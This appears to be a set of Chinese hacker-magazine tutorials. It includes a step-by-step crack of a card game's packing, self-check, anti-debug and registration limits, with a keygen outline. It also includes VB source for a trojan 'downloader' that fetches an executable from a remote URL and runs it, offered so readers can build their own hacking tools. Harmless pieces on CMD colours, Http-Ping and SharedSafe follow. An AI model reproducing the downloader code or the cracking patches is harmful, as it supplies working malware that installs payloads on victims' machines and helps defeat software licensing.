作为一名小叉子的我，希望这篇文章能够给包括我在内的菜鸟们带来一些启发。

本文分为三部分：第一部分为脱壳去自校验；第二部分为爆破；第三部分为算法的简要分析。

好了，废话不多了，现在就让我们进入正题吧！！！

## 第一部分：

拿到一个软件，要对它进行分析。第一步要做的就是查壳，分析这个软件是用什么语言写的。因为不同的语言可能有不同的破解方法：比如说如果是 Delphi 的程序，会发现用一般的 API 函数不能拦截文本框中的数据。因为 Delphi 通过向 Edit 发送 WM_GETTEXT 消息来获得文本内容，整个过程中并没有调用任何 WIN32 API 函数。这时我们就可以通过按钮事件来定位关键代码。可以说，了解软件的语言是对下面分析起到指路明灯的作用。

用 PEiD 进行查壳，见图1。是 ASPack 2.12 -> Alexey Solodovnikov，用 ESP 定律轻松脱掉，见图2。是 VC8 -> Microsoft Corporation*。运行脱壳后的程序，发现程序打开后画面一闪而过。很明显这是有自校验，怎么办？如果你有一定的算法分析能力的话，可以带壳破解。但是大部分小菜还是喜欢爆破的，因为简单方便。好吧，现在就让我们来去掉它的自校验。下断点 bp ExitProcess，bp ExitThread，程序成功在 ExitProcess 处断下来了。

```asm
00440DF1  /$  FF7424 04      push dword ptr [esp+4]
00440DF5  |.  E8 D1FFFFFF    call 00440DCB
00440DFA  |.  59             pop ecx
00440DFB  |.  FF7424 04      push dword ptr [esp+4]
00440DFF  \.  FF15 54614500  call dword ptr [<&kernel32.ExitProcess>] ; ExitProcess
```

但是，我们向上找，并没有发现跳转，怎么办？我们换一个函数试试。下断 bp PostQuitMessage。同样，程序也成功断在 PostQuitMessage。

```asm
00408D5A   > 884C24 14       mov ecx, dword ptr [esp+14]
00408D5E   . 68 A4D64500     push 0045D6A4
; /ProcNameOrOrdinal = "Func"
00408D63   . 51              push ecx
; |hModule
00408D64   . FF15 E4624500   call dword ptr [<&kernel32.GetProcAddress>] ; GetProcAddress
00408D6A   . 3BC3            cmp eax, ebx
00408D6C   . BE 02000000     mov esi, 2
00408D71   . 897424 18       mov dword ptr [esp+18], esi
00408D75   . 74 11           je short 00408D88
00408D77   . FFD0            call eax
```

## 菜鸟学堂

```asm
00408D79  85C0        test eax,eax
00408D7B  75 07       jnz short ...
00408D7D  53          push ebx
00408D7E  FF15 ...    call dword ptr [<&USER32.PostQuitMessage>]
00408D84  895C24 18   mov dword ptr [esp+18],ebx
00408D88  8B5424 14   mov edx,dword ptr [esp+14]
00408D8C  52          push edx
00408D8D  FF15 ...    call dword ptr [<&kernel32.FreeLibrary>]
...
0041A172  8BCE        mov ecx,esi
0041A174  E8 ...      call 0042294E
0041A179  E9 ...      jmp 0041A24C
0041A182  3B7C24 0C   cmp edi,dword ptr [esp+C]
0041A186  75 08       jnz short 0041A190
```

发现程序调用 GetProcAddress 取得 Func 函数的地址，然后再调用 Func 这个函数进行自校验。我们把 00408D7B 的 jnz 改成 jmp，重启程序，程序正常打开。我们在 00408D5A 上向上翻，依次发现程序调用 WinAntiDebug、AntiDump、AntiRegMon、AntiFileMon、SoftIceXP 等函数进行了反调试检测。看着不爽，通通 nop 掉。

## 第二部分：

打开脱壳后的程序。单击“帮助-注册”。发现未注册程序有三点限制：

- 未注册版本只能选三张牌面图案；
- 未注册版本不能玩宝鸡挖坑；
- 未注册版本只能使用100次。

### 第一点：

单击设置中的选项，出现牌背图案。单击图案，出现提示对话框，如图3所示。下断 bp MessageBox，没有断下来。怎么办？注意提示字符串，让我们来搜索一下。发现了，见图4。跟随字符串，来到代码处。往上找，发现有跳转，改成 jmp，成功爆破。

```asm
0041A15D  E8 ...      call 0041A590
0041A162  85C0        test eax,eax
0041A164  75 18       jnz short 0041A17E
; 改成 jmp 0041A17E
0041A166  6A 40       push 40
0041A168  68 ...      push 0045CD18
```

### 第二点：

游戏开始时，单击宝鸡挖坑，弹出未注册提示。和第一点一样，我们搜索字符串就能到达关键处，此处就不多说了。

### 关键在第三点：

未注册版本只能使用100次。单击“帮助-注册”，可以看到限制次数，如图5。前两点会弹出提示框，而第三点却只有文字说明，怎么办？应该下什么断点呢？一开始我也想了好久，后面静下心来分析了一下程序流程，才找到了关键部分。未注册版本只能使用100次，我们不可能让这个程序使用100次，看它会产生什么注册提示？

```asm
0040F1B2  C787 AC000000 ...  mov [edi+AC], 2E
0040F1BC  E8 8F2BFFFF        call 00401D50
```

那么，就让我们来猜一下。

第一种情况：像前两点一样，弹出一个对话框，提示使用限制已到。我们搜索字符串，并未找到有用的信息，难道是字符串加密！但是前两点的字符串信息都能找到，这种可能性很少。

第二种就是弹出注册框，要求你注册。后来事实证明第二种假设是正确的。好了，也许有人会说：总不能每个程序都靠运气来假设吧。那么我们就用常规方法来分析。分析的关键就在这“100次”上，到底怎么样才能算上一次。打开程序选择游戏模式算一次，还是单击发牌算一次。解决这个问题很简单，就是一个个去试。

实践是检验真理的唯一标准。嘿嘿……结果如图6所示，单击发牌（中间那个牌）后，使用次数减一。分析可知，这个中间的牌是一个 Button。我们可以通过消息循环找到关键处，但是此处我们介绍一个更简单的办法。单击发牌，发现左下角有字符串提示，如图7。通过寻找字符串，我们直接到达了 Button 内的函数。

是不是比寻找消息循环要简单呢？如果你有时间的话，往上翻，是不是看到了窗口过程。嘿嘿！！我们继续往下走，到达了关键代码处。dword ptr [esp+20] 中保存的就是程序已使用过的次数，与 64h（转成十进制为100）比较。如若大于100就跳向 0040F930。而 0040F930 处继续运行下去便会弹出注册对话框，提醒你使用次数已到要求注册。我们可以把 0040F90B 和 0040F92E 改成 jmp，也可以把 0040F914 处 nop 掉。当然如果你愿意，也可以把 64h 换成一个很大的值。总而言之，是方法多多啊。

```asm
0040F185  6A 22           push 22
0040F187  8D8F 50A00000   lea ecx, dword ptr [edi+A50]
0040F18D  68 00DA4500     push 0045DA00
...
0040F1A7  68 24DA4500     push 0045DA24
```

```asm
0040F90B  75 F2        jnz short 0040F9??
0040F90D  8B4C24 20    mov ecx, dword ptr [esp+20]
0040F911  83F9 64      cmp ecx, 64
0040F914  7F 1A        jg short 0040F930
0040F916  B8 67666667  mov eax, 66666667
...
0040F925  03C2         add eax, edx
```

## 菜鸟学堂

## 第三部分：

限于篇幅，在此对算法部分作简单分析。该算法是通过注册码姓名和机器码来算注册码。程序根据一定算法，将注册姓名和机器码累加，再经过一些运算，然后除以 11h，依次取 5 个余数，并且要求全不相同。这 5 个余数分别决定了前 5 个字符在注册码中的位置。因为注册码有 20 位，而程序只对 6 个字符进行验证。第 6 个字符是最后一位，也就是第 20 位。知道这个写注册机就方便了。我们把注册码初始化为 20 个 0，然后使用内联汇编把算法部分算出的 6 个值依次写入这 20 个 0 中的相应部分，然后再把它输出就行，见图8。查看是否注册成功，见图9。程序和注册机源码我已放在附件中，有兴趣的朋友可以去跟一下。

## 总结：

其实这篇文章重在思路，如果你能定位到关键代码处，我想 Crack 也只是时间问题。难就在定位，当有时常规方法行不通时，我们可以发散思维，尝试一下非常规方法。达到成功的路有很多，或许你是幸运，但最起码你做到了！

感谢你看完本文，写得不好，多多包涵！

## 木马牵引，下载！下载！

### VB 实现简易下载者

相信各位读者对“下载者”这种病毒一定不陌生吧？先跟我来重温一下什么是下载者。

下载者（Downloader）是一类计算机病毒程序，按照国际上的病毒命名惯例为“Trojan-Downloader”一类。这类木马程序的主要内容为：指引中毒用户的计算机到病毒开发者指定的 URL 地址去下载更多的病毒文件或者木马后门文件并运行，使得黑客获得更大操作权限，为黑客后门技术奠定基础。通俗地说，就是自动下载病毒的程序。一般这类病毒体大小在几百字节到几 KB 之间，比一般的木马程序要小得多，便于网络传播。一些空虚的人往网站挂马，通常挂的都是下载者。

程序体积小，可以迅速下载执行，不卡IE浏览器。所以，不安装杀毒软件，一般很难发现。



图1

下载者发展速度很快，集成了各种各样的功能，如：抗杀软、穿防火墙、过主动防御和云安全查杀、穿透还原卡和还原精灵、映像劫持、屏蔽反病毒网站、浏览器劫持、锁IE浏览器首页、弹广告等。

作为一名黑客，编程技术是必不可少的。编程语言的种类很多，VC++、Delphi、VB、易语言等等。很多读者都希望能编写出属于自己的黑客软件，下面我就教大家使用很好上手的VB语言编写一款上文提到的“下载者”（如图1）。这款简单的下载者除了窗体外，不需要添加任何控件。两段简单代码就可以完成了，各位读者不必担心过于复杂。

在这里，我只是简单地用VB实现一下下载者的基本功能。所以，我就不添加生成器了。关于木马类软件的生成器编写，日后我会慢慢给大家讲解。

首先打开VB，新建一个标准的EXE工程（如图2）。我们先对工程变量进行定义，为了避免混乱，我们使用“Option Explicit”，强制对该文件中的所有变量进行显式声明，也就是必须先声明变量才可以使用。



图2

代码如下：

```vb
Option Explicit  '强制对该文件中的所有变量进行显式声明。

Private Declare Function URLDownloadToFile Lib "urlmon" Alias "URLDownloadToFileA" (...) As Long
Private Declare Function ShellExecute Lib "shell32.dll" Alias "ShellExecuteA" (...) As Long
Private Declare Sub Sleep Lib "kernel32" (ByVal dwMilliseconds As Long)
```

第一个函数声明：调用API进行网络下载，这是VB中一个用来调用API进行网络下载的函数。  
第二个函数声明：运行一个外部程序，或者是打开一个已注册的文件，并对外部程序有一定的控制。  
第三个函数声明：将调用它的进程挂起（暂停）dwMilliseconds毫秒后继续运行，挂起时不仅不会响应用户操作，还会停止自身运行。

完成了对三个函数的声明后，下面我就对窗体进行声明，代码如下：

```vb
Private Sub Form_Load()  '对窗体进行声明。
    URLDownloadToFile 0, "http://www.xuanfengwu.com/木马.exe", "c:\木马.exe", 0, 0
    Sleep 20000  '以毫秒为单位，1000毫秒=1秒，当前参数是挂起20秒。
    ShellExecute 0, vbNullString, "c:\木马.exe", vbNullString, vbNullString, vbNormalFocus
    End
End Sub
```

为了方便各位读者理解，我依次翻译下代码的含义：对窗体进行声明，设置文件的下载地址“http://www.xuanfengwu.com/木马.exe”（注：该URL为虚构），下载文件保存到C盘，下载一个名为“木马”的可执行文件。以设置的参数挂起20000毫秒，也就是20秒，运行一个外部程序，也就是C盘下的“木马.exe”，最后关闭程序。

一款属于我们自己的“下载者”就完成了，选择菜单里的“文件”→“生成工程1（注：我这里把下载者定名为了SKULL-1）”（如图3），选择好生成位置就可以了。

## 菜鸟学堂



图3

怎么样，成功下载了指定的文件吧？

经过我的分析讲解，大家是否觉得很简单呢？其实编程说难也难，说简单也简单，入门后就会觉得很简单了，各位小菜还要努力哦！滥用黑客技术必将遭到法律的制裁，希望大家都能正视黑客技术。

（文中涉及的相关代码本期光盘已收录）

## 打造“黑客帝国”式CMD

牟晓东

在十多年前，《The Matrix》（《黑客帝国》）电影中展现的“黑底绿字”式打扮几乎已经成了标准的黑客工作界面，非常酷。经常在一些入侵教程中看到“大牛”们使用那些经过改良之后的“记事本”记录软件，也有相当一部分采用了“黑底绿字”。对于经常使用的黑底白字CMD命令行窗口，我们是不是也可以稍加改造一下变“绿字”呢？其实Windows已经提供了相关的设置操作，而且方法也极其简单，只是很多人把它忽略了而已。下面我们就可以通过简单的三步操作将这个小愿望变为现实：

在桌面的空白地方单击鼠标右键，从弹出的快捷菜单中选择“新建”→“快捷方式”，接着在出现的“创建快捷方式”窗口的“请输入项目的位置”处直接输入“C:\WINDOWS\system32\cmd.exe”（也可以通过点击后面的“浏览”按钮来进行CMD.exe程序的定位）（如图1）；然后点击“下一步”按钮，在“选择程序标题”窗口中保持“键入该快捷方式的名称”为默认的“cmd.exe”不变，直接点击“完成”按钮。



图1

### 第一步：建立CMD快捷方式

#### 第二步：“改色”

右键单击刚刚生成的“cmd.exe”快捷方式，选择“属性”；在弹出的“cmd.exe属性”窗口中切换到“颜色”选项卡，其中罗列出了“屏幕文字”、“屏幕背景”和“弹出文字”等项目的颜色设置。先单击“屏幕文字”，再单击下方第11个亮绿色小色块，此时“选定的屏幕颜色”处就会即时显示出所设置的最终显示效果（如图2），最后点击“确定”按钮。



图3

现在试着在桌面上双击“cmd.exe”快捷方式运行一下看看，是不是已经实现了经典的黑客帝国式“黑底绿字”效果（如图3）？别等了，要酷就去吧！

## 当PING命令吃了“闭门羹”之后

郭建伟

要说最常用的网络工具，非PING命令不可。当我们对某个网站进行探测分析时，可能随手就会使用PING命令对其进行初步测试。根据PING命令的检测结果，可以得到目标网站的基本信息（例如IP地址、主机响应时间等）。

PING命令还可能被当作攻击工具使用，如果攻击者控制了很多主机，使用PING命令同时向目标主机发送大量的ICMP嗅探报文，就很容易造成该网络拒绝服务（DoS）的情况。因为PING命令依靠的是ICMP网络协议，发送的是ICMP ECHO_REQUEST结构的数据包，因此很多网站为了防止被探测，往往会用IP安全策略“封杀”PING探测。对这些网站进行PING探测，恐怕就只能吃“闭门羹”了。其实，我们完全可以使用PING命令的替代品——Http-Ping，来摆脱上述困境。只要远程主机开启了HTTP/HTTPS服务，该工具就可以执行PING探测。

在其后跟上目标网址，就可以对其进行简单探测了（如图1）。在检测结果信息中显示探测的次数、每次探测成功与否标记，以及发送报文的大小和花费的时间等信息。当探测完成后，还可以显示探测的统计信息，包括发送的数据包数量、接收到的数据包数量、丢失的数据包数量、丢包率，以及探测过程中花费的最短时间、平均时间和最长时间等信息。即使远程主机封锁了ICMP协议，我们同样可以获得准确的检测数据。



图1

为了更好地使用Http-Ping，还需要深入了解其语法。其命令的完整使用语法是：

`http-ping [-t] [-n count] [-i interval] [-f file-name] [-s] [-v] [-q] [-c] [-r] [-w timeout] URL`

其中参数含义如下：

- `-t`：对目标主机执行连续检测，直到按“Ctrl+C”强制退出。
- `-n count`：向目标主机执行指定次数的检测操作，`count`为检测次数。
- `-i interval`：指定检测时间间隔，每隔预设时间发送数据包。
- `-f file-name`：将检测回应信息保存在指定文件中，`file-name`包含目标文件路径。
- `-s`：执行静默检测，不显示任何回应信息。
- `-v`：显示更加详细的回应统计信息。
- `-q`：执行快速探测，只取得目标主机的HTTP头信息。
- `-c`：在检测过程中执行完整的网络连接。
- `-r`：遵从HTTP重定向。
- `-w timeout`：设置检测回应超时等待时间。
- `URL`：目标主机的网址。

Http-Ping只包含一个“http-ping.exe”文件，您完全可以将其复制到系统文件夹中，当作系统命令来使用。Http-Ping的使用方法和PING命令差不多，在其后跟上目标网址，就可以对其进行简单探测。

> （文中涉及的软件本期光盘已收录）

### 为文件传输开辟绝密“通道”

当我们传输机密文件时，最担心的就是文件安全了。现在互联网上可谓危机四伏，数据在传输过程中一旦被黑客非法拦截和破译，就会给您造成不小的损失。为了保证文件传输的安全性，我们必须另辟蹊径，采用与众不同的数据传输方式，才可以巧妙避开黑客的追踪。本文向大家介绍SharedSafe和DirectTransFile这两款独特的软件，前者可以通过邮箱安全传输文件，后者可以使用暗语码传文件。希望起到抛砖引玉的作用，帮助大家更好、更安全地传输机密文件。

#### 一、巧用邮箱安全传输文件

SharedSafe的特点是可以借助您的邮箱，实现文件的安全传输和同步操作。为了便于讲解，这里举例说明SharedSafe的用法。假设名为Alice的用户需要将本机C盘上的“jimiwen-jian”文件夹安全传输给Bob用户，Alice首先在C盘“jimiwen-jian”文件夹的右键菜单上点击“SharedSafe”→“Create Safe and Link to Folder”项，在创建安全链接窗口（如图1）中选择“New from Email”项，在“Email Address”栏中输入自己的邮箱地址，注意该邮箱必须支持IMAP协议，这里输入“alice@gmail.com”，表示使用Gmail邮箱。在“Password”栏中输入邮箱密码。之后点击“Probe Email”按钮，SharedSafe即可对该邮箱进行测试。



图1

如果测试成功，点击“Create Safe and Link to Folder”按钮，SharedSafe即可针对该文件夹创建与之对应的安全链接（如图2）。注意，SharedSafe会自动在目标文件夹图标上添加安全链接标记，便于您将其和其他正常文件夹区分开。



图2

接下来Alice就可以共享该文件夹了，在C盘“jimiwenjian”文件夹的右键菜单中点击“SharedSafe”→“Share Safe”项，在安全共享窗口（如图3）中如果勾选“Restrict recipients to read from the Safe only”项，表示将密钥文件设置为只读类型，接收者无法修改其内容。强烈建议在“Password”栏中输入密码，用来保证文件传输的安全性。点击“Browse”按钮，可以修改密钥文件的名称和存储路径；密钥文件默认名称为原文件夹名称后跟“.safekey”，存储在“我的文档”中。在“Export to”列表中选择密钥文件导出方式，默认为“Safe Key File”项，表示直接导出为独立文件。之后点击“Export Safe”按钮，将密钥文件导出为独立文件。

